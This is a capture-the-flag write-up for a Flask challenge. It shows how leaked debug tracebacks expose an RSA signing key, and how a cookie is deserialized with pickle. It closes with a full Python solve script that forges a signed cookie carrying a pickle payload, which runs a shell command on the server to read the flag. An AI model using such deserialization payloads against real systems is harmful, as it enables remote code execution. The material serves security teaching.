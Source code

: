 # EnFlaskCom

This challenge seems to be a simple web service. When loading the page, it tells you:
```
Flag is at /flag. Don't bother with a reverse shell.
```

We can check /flag, which tells you `You need to be admin`.

If we open Dev tools, we notice that two cookies are being set. The cookies are 'signature' and 'user.'

If we modify either the signature or the user, and reload the `/flag` page, Debug information pops up! The developer didn't disable tracebacks on errors.

We see some code around where the exception is raised. Notably, we see the line:
```python
user = pickle.loads(binascii.unhexlify(request.cookies.get("user")))
```

Deseriazing user-controlled objects is very dangerous in Python, and we can get code execution on the server if we can control our argument.

Now we want to figure out what the `sign` function is, to see if there is a way we can potentially break the signature.

The function `sign` is called on the argument of `request.cookies.get("user")`. Perhaps we can make that return a malformed or incorrect value, which will break the signature. Setting user to non-hex doesn't work, but `.get` will return None if the cookie doesn't exist. When we delete the cookie, we get a different error! A TypeError.

When we look at the code around the error, the RSA key used to sign the message is visible, in addition to the full implementation of the sign method!

We can use this to forge our own `user` value.

Now we just need to craft the correct object to unpickle, by defining the `reduce` method to something malicious. One way to exfiltrate data will be to raise an exception with the flag in it.

The class we will pickle is:
```python
class User:
    def __reduce__(self):
        return exec, ("import subprocess; raise Exception(subprocess.check_output(['cat', 'flag.txt']));",)
```

A full solve implementation is:

```python
import requests
import pickle
import binascii
from Crypto.Signature import pkcs1_15
from Crypto.PublicKey import RSA
from Crypto.Hash import SHA384


def sign(msg):
    if type(msg) is not bytes:
        msg = bytes(msg, 'utf8')
    keyPair = RSA.RsaKey(n=122929120347181180506630461162876206124588624246894159983930957362668455150316050033925361228333120570604695808166534050128069551994951866012400864449036793525176147906281580860150210721340627722872013368881325479371258844614688187593034753782177752358596565495566940343979199266441125486268112082163527793027, e=65537, d=51635782679667624816161506479122291839735385241628788060448957989505448336137988973540355929843726591511533462854760404030556214994476897684092607183504108409464544455089663435500260307179424851133578373222765508826806957647307627850137062790848710572525309996924372417099296184433521789646380579144711982601, p=9501029443969091845314200516854049131202897408079558348265027433645537138436529678958686186818098288199208700604454521018557526124774944873478107311624843, q=12938505355881421667086993319210059247524615565536125368076469169929690129440969655350679337213760041688434152508579599794889156578802099893924345843674089, u=3286573208962127166795043977112753146960511781843430267174815026644571470787675370042644248296438692308614275464993081581475202509588447127488505764805156)
    signer = pkcs1_15.new(keyPair)
    hsh = SHA384.new()
    hsh.update(msg)
    signature = signer.sign(hsh)

    return signature


class User:
    def __reduce__(self):
        return exec, ("import subprocess; raise Exception(subprocess.check_output(['cat', 'flag.txt']));",)


user = binascii.hexlify(pickle.dumps(User()))
signature = binascii.hexlify(sign(user))

cookies = dict(signature=str(signature, 'utf8'), user=str(user, 'utf8'))

r = requests.get('http://localhost:5000/flag', cookies=cookies)

print(r.text)
```
